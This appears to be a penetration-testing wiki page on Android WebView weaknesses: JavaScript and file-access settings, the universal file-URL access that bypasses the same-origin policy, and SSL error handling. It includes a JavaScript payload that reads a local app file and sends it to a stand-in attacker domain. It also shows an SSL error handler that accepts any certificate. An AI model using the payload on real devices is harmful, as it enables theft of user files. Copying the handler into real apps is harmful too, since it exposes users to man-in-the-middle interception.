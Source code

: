 # Webview Attacks

## Javascript Enabled

_WebViews_ have _Javascript_ disabled by default. The method [_setJavaScriptEnabled\(\)_](https://developer.android.com/reference/android/webkit/WebSettings.html#setJavaScriptEnabled%28boolean%29) is available for explicitly enabling or disabling it.

## File Access

_WebView_ file access is enabled by default. Since API 3 \(Cupcake 1.5\) the method [_setAllowFileAccess\(\)_](https://developer.android.com/reference/android/webkit/WebSettings.html#setAllowFileAccess%28boolean%29) is available for explicitly enabling or disabling it.

If the application has _android.permission.READ\_EXTERNAL\_STORAGE_ it will be able to read and load files from the external storage.

 The _WebView_ needs to use a File URL Scheme, e.g., `file://path/file`, to access the file.

## CORS - Cross Origin Resource Sharing

**If you want to**[ **learn what is CORS please read this post**](../../pentesting-web/cors-bypass.md)**.**

There is a very important property called _**UniversalAccessFromFileURLs**_ **that allows SOP bypass**. This property indicates whether _Javascript_ running in the context of a file scheme can **access content from any origin**. This property is enabled by default below API 16 \(Jelly Bean 4.1.x\) and there is no way to disable it on those API levels \[[1](https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html#note1)\]. In API 16 \(Jelly Bean 4.1.x\) and afterwards the property is **disabled by default**. The method [_**setAllowUniversalAccessFromFileURLs\(\)**_](https://developer.android.com/reference/android/webkit/WebSettings.html#setAllowUniversalAccessFromFileURLs%28boolean%29) ****was also made available to explicitly **enable or disable this feature**.

## Scenarios

### Javascript Enabled & FileSystemAccess Disabled

In this scenario an attacker is able to **inject Javascript code** inside the web page opened via **webview** by the victim. This could be done maybe via **XSS** or making the webview **load** a **malicious HTML** page stored inside the phone.  
This **webview has Javascript enabled** but no access to the file system.

In this scenario the attacker **won't be able to read local files**, but depending on the permissions of the application this **could allow an attacker to interact with the functionality of the device** \(read SMS, microphone recording etc.\) exposing the security of the application and the device itself into great risk.

### Javascript Enabled & FileSystemAccess enabled

The scenario is like the one mentioned previously but the **webview now have FileSystem access**.  
An attacker could try to ex-filtrate files with javascript code like:

```javascript
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
    window.location.replace('https://attackerdomain.com/?exfiltrated='+xhr.responseText);
    }
}
xhr.open('GET', 'file:///data/data/pt.integrity.labs.webview_remote/files/sandbox_file.txt', true);
xhr.send(null);
```

So **even with file access enabled** in the _WebView_, due to the fact that the file scheme request is considered a **Cross Origin Request** and hence **disallowed**, the attacker will **not be able to exfiltrate** files this way.

Note that if the **attacker is able to control the mobile** where the vulnerable application is running, he could be able to abuse it to **make it load the internal file and see it**. In this case the CORS isn't stopping the attack because the attacker is **directly accessing the file instead of trying to access it from a different origin**. 

**CORS related errors looks like this:**

```javascript
05-09 12:38:59.306 27768 27768 I chromium: [INFO:CONSOLE(20)] “Failed to load file:///data/data/pt.integrity.labs.webview_remote/files/sandbox_file.txt: Cross origin requests are only supported for protocol schemes: http, data, chrome, https.”, source: https://labs.integrity.pt/ (20)
```

### Javascript Enabled, FileSystemAccessEnabled & CORS Disabled

In this scenario, using the same Javascript payload, you will finally **be able to ex-filtrate internal files.**

## **SSL Error Handling**

The code below instructs the WebView client to **proceed when an SSL error occur**. This means that the **application is vulnerable to MiTM attacks** as it could allow an attacker to read or modify content that is displayed to the user since any certificate would be accepted by the application.

```javascript
@Override
public void onReceivedSslError(WebView view, SslErrorHandler handler,
SslError error)
{
    handler.proceed();
}
```

## **References**

* \*\*\*\*[**https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html**](https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html)\*\*\*\*
* \*\*\*\*[**https://pentestlab.blog/2017/02/12/android-webview-vulnerabilities/**](https://pentestlab.blog/2017/02/12/android-webview-vulnerabilities/)\*\*\*\*

